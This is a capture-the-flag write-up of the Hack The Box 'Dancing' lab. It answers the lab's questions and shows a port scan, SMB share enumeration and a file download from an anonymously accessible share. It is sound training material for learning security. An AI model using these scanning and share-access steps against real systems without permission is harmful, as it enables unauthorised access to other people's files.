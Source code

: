 - - - 
created : 30-07-2025 

Tags : #veryeasy
- - - 
# Objective

Learn how to start.
# CONNECT

To attack the target machine, you must be on the same network.  
Connect to the Starting Point VPN using one of the following options.

It may take a minute for HTB to recognize your connection.  
If you don't see an update after 2-3 minutes, refresh the page.

I will use OpenVPN, so i download the config file on HTB, go in the same directory on my PC and execute the following command :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB]
└─$ sudo openvpn starting_point_mdn0x.ovpn 
[sudo] password di mdn0x: 
```

We can start our [Vulnerable Machine](../../../../3%20-%20Tags/Hacking%20Concepts/Vulnerable%20Machine.md).

Now we add the target IP to our /etc/hosts file, so we don't have to remember the [IP address](../../../../3%20-%20Tags/Hacking%20Concepts/IP%20address.md) every time :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Meow]
└─$ sudo nano /etc/hosts
```

We add a line with the given IP and a name .
# Task 1

What does the 3-letter acronym SMB stand for?

```bash
 Server Message Block
```
# Task 2

What port does SMB use to operate at?

```bash
 445
```
# Task 3

What is the service name for port 445 that came up in our Nmap scan?
## Rustscan/Nmap

We can use [Rustscan](../../../../3%20-%20Tags/Hacking%20Tools/Rustscan.md) that will pass the result to [Nmap](../../../../3%20-%20Tags/Hacking%20Tools/Nmap.md) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ rustscan -a dancing.htb -- -A  

Open 10.129.69.166:135
Open 10.129.69.166:139
Open 10.129.69.166:445
Open 10.129.69.166:5985
Open 10.129.69.166:47001
Open 10.129.69.166:49664
Open 10.129.69.166:49665
Open 10.129.69.166:49666
Open 10.129.69.166:49668
Open 10.129.69.166:49667
Open 10.129.69.166:49669

PORT      STATE SERVICE       REASON          VERSION
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

The answer is **microsoft-ds**.
# Task 4

What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?

```bash
 -L
```
# Task 5

How many shares are there on Dancing?
## SMBclient

Let's check, we can use [SMBclient](../../../../3%20-%20Tags/Hacking%20Tools/SMBclient.md) to connect :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ smbclient -L 10.129.69.166
Password for [WORKGROUP\mdn0x]: (no passwd/enter)

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.69.166 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
# Task 6

What is the name of the share we are able to access in the end with a blank password?

```bash
 WorkShares
```
# Task 7

What is the command we can use within the SMB shell to download the files we find? `get`

Let's use the `-N` flag to access the directory like this :

```
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ smbclient  //10.129.69.166/WorkShares -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

                5114111 blocks of size 4096. 1753002 blocks available
```

Now we can download the files with **get** :

```bash
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021

                5114111 blocks of size 4096. 1752981 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0,0 KiloBytes/sec) (average 0,0 KiloBytes/sec)
```
# Task 8

Submit root flag

Now we exit with `quit` or `ctrl + C` and `cat` the flag :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ ls
flag.txt  worknotes.txt
                                      
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ cat flag.txt
 {{REDACTED_FLAG}}
```
